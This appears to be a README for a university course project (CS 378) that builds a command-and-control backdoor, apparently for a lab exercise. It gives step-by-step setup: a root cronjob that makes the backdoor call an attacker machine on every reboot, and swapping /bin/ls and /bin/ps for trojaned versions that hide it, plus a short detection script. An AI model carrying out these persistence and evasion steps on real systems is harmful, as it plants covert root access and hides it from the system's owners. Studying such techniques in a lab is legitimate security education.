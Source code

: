 # C S 378 - Command and Control Project (Donald and Vincent)

## Set Up

### Configure IP (IMPORTANT)

Edit the IP addresses in the **_config.py_** file to match the IP address of the attacker and target machine. Can also set which port number the attacker machine will use to listen.

### Creating executables (IMPORTANT)

To create the attacker and backdoor executable things, run the make file. One file named 'attacker'
and another file named 'backdoor' should be created.

This must be done for the configured IP to work.

### Setting Up and Running Backdoor 

#### Installing necessary packages (on week 4)

Run the following commands as root on the week 4 machine:

sed -i 's/mirrorlist/#mirrorlist/g' /etc/yum.repos.d/CentOS-*

sed -i 's|#baseurl=http://mirror.centos.org|baseurl=http://vault.centos.org|g' /etc/yum.repos.d/CentOS-*

sudo yum install -y python3

python3 -m pip install pexpect

python3 -m pip install -U pip setuptools

python3 -m pip install cryptography

#### Creating reboot cronjob 

Place the 'backdoor' executable in the /bin directory of the target machine.

Run **_chmod 755 backdoor_** to give execute permissions.

Run the command **_sudo crontab -e_**

Scroll to the bottom (after all #) and add the line: **_@reboot python3 /bin/backdoor &_**

Reboot the system (**_sudo reboot_**), cronjob should run every restart. Backdoor should call out
to attacker machine every 10 seconds (can edit this amount of time in **_config.py_**).

### Setting Up Detection Evasion

#### ls

In the evasion_and_detection folder, there is an **_ls_custom_** file. Take that and put it into the target machine in the **_/bin/_** directory.

Update **_ls_custom_** permissions by running: **_chmod 755 /bin/ls_custom_**

If not already created, run ***mkdir /bin/orig*** to create a directory named **_orig_** in the **_/bin_** directory.

Run **_mv /bin/ls /bin/orig_** to place the original **_ls_** file from the **_/bin_** directory into the **_/bin/orig_** directory.

Run ***mv ls_custom ls*** to rename the ***ls_custom*** file to **_ls_**


#### ps

Place the ***fake_ps*** file found in the evasion_and_detection folder into the **_/bin_** directory of the target machine

Run ***chmod 755 fake_ps*** to set permissions.

If not already created, run ***mkdir /bin/orig*** to create a directory named **_orig_** in the **_/bin_** directory.

Run **_mv /bin/ps /bin/orig_** to place the original **_ps_** file from the **_/bin_** directory into the **_/bin/orig_** directory.

Run ***mv fake_ps ps*** to rename the ***fake_ps*** file to **_ps_**

### Setting Up and Running Attacker

Place the 'attacker' executable on the attack machine.

Run **_chmod +x attacker_** to give execute permissions.

Run **_./attacker_** in the command line to run the file and wait for the connection to be initiated by the target machine.

Once connection is made, we should be running as the root user and we are initially placed in root's directory

### BONUS: Detection Script

In the evasion_and_detection folder, there is an **_detect.py_** file. To run it, put it into the target machine and execute it using the following command: **_python3 detect.py file_to_check_**. The argument is to specify the name of the file you want to check for the malicious string **_backdoor_**, which in this case is **_/bin/ls_** and **_/bin/ps_**.